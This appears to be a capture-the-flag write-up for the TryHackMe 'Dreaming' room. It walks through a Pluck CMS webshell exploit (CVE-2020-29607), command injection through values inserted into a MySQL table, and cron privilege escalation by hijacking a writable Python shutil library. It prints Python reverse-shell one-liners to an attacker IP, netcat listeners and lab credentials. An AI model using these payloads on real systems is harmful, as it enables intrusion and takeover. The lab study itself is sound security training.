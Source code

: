 # dreaming
Solve the riddle that dreams have woven. <br>
https://tryhackme.com/room/dreaming


## 1. lucien flag

on http://MACHINE_IP/app/pluck-4.7.13/ runs https://github.com/pluck-cms/pluck. To access the admin panel you need to guess the password which is "password". The pluck version 4.7.13 has an RCE vulnerability - CVE-2020-29607, for which there is an exploit available at exploit-db. Just change the ip, port and password in the script and execute, then try to view the uploaded image in the webapp, which will trigger the webshell inside the image. <br>
https://nvd.nist.gov/vuln/detail/CVE-2020-29607 <br>
https://www.exploit-db.com/exploits/49909

the password for the lucien user can be found in /opt/test.py.

## 2. death flag
the /home/death/getDreams.py script is not viewable but there is a copy in /opt/getDreams.py, which has an command injection vulnerability:
```python
# Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)   # <-- vulnerability 
                print(shell)
```


create reverse shell script, insert it into the library mysql DB, the login is in the bash history of the lucien user:
```bash
# just output the flag without reverse shell:
mysql -u lucien -plucien42DBPASSWORD -Dlibrary -e "insert into dreams (dreamer, dream) values ('hacker3', '; cat ~/death_flag.txt');"

# create /tmp/reverse.sh:
export RHOST="10.8.196.176";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

# make it executable:
chmod +x /tmp/reverse

# insert execution of /tmp/reverse.sh into DB
mysql -ulucien -Dlibrary -plucien42DBPASSWORD -e "insert into dreams values ('hacker', dream='\; /tmp/reverse')"

# to check mysql table:
mysql -ulucien -Dlibrary -plucien42DBPASSWORD -e "select * from dreams;"

# start listener on attacking host:
nc -nvlp 9001

# execute /home/death/getDreams.py as death and trigger reverse shell:
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```

## 3. morpheus flag

/home/morpheus/restore.py:
```python
from shutil import copy2 as backup  # <-- loads shutil library on which death user has write access

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```

when looking with the lucien user at /var/log/syslog you see that /home/morpheus/restore.py gets executed every minute:
```log
Dec  1 16:00:01 dreaming CRON[65454]: (morpheus) CMD (/usr/bin/python3.8 /home/morpheus/restore.py)
Dec  1 16:00:01 dreaming CRON[65453]: (CRON) info (No MTA installed, discarding output)
Dec  1 16:01:01 dreaming CRON[65458]: (morpheus) CMD (/usr/bin/python3.8 /home/morpheus/restore.py)
Dec  1 16:01:01 dreaming CRON[65457]: (CRON) info (No MTA installed, discarding output)
```

To exploit this write another reverse shell at the top of the malicious library:
```bash
# find the shutil library file in the filesystem:
find / -name shutil* 2>/dev/null
# -rw-rw-r-- 1 root death 51314 Dec  1 16:01 /usr/lib/python3.8/shutil.py

# insert at the top of /usr/lib/python3.8/shutil.py
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.196.176",9002));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")

# On attacking machine start an listener:
nc -nlvp 9002
```



